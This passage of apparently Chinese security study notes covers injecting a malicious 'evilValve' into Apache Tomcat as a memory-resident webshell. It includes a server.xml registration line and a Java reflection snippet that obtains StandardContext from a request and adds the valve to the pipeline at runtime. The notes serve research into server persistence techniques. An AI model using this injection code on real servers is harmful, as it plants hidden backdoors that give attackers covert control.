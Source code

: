 >         return false;
>     }
> }
> ```




E:\Tomcat\apache-tomcat-8.5.70\conf\server.xml

> ```xml
> <Valve className="com.example.tomcat8.evilValve" />
> ```

![image](https://user-images.githubusercontent.com/55024146/144636239-f0758eb1-7698-44ba-92fe-cd7c2cd575f8.png)


测试失败-报错如下
 - 卡了很久没能解决，放弃


![image](https://user-images.githubusercontent.com/55024146/144635943-a7fd98c0-ea60-4fe9-874d-d40e5f41caa7.png)

#### 动态添加 valve

- org.apache.catalina.core.ContainerBase#addValve


![image](https://user-images.githubusercontent.com/55024146/144636017-6411e9c5-0e51-43e0-b989-27889acc3a1e.png)

- org.apache.catalina.core.ContainerBase#pipeline


![image](https://user-images.githubusercontent.com/55024146/144636054-a6a6d624-038e-48aa-8f50-dc54cd3b445f.png)

- org.apache.catalina.core.ContainerBase#getPipeline

![image](https://user-images.githubusercontent.com/55024146/144636096-27ca076f-0b72-4b5b-bf78-ee75d3934157.png)


捋清思路

- 自定义valve -> 实现valve接口，重写invoke方法
- 添加valve -> this.pipeline.addValve(valve)
- 获取this.pipeline -> ContainerBase#getPipeline
- 调用getPipeline -> 继承ContainerBase类
- ContainerBase类 -> `public class StandardContext extends ContainerBase implements...`
- 获取StandardContext

代码实现

```java
ServletContext servletContext = request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
standardContext.getPipeline().addValve(evilValve);
```
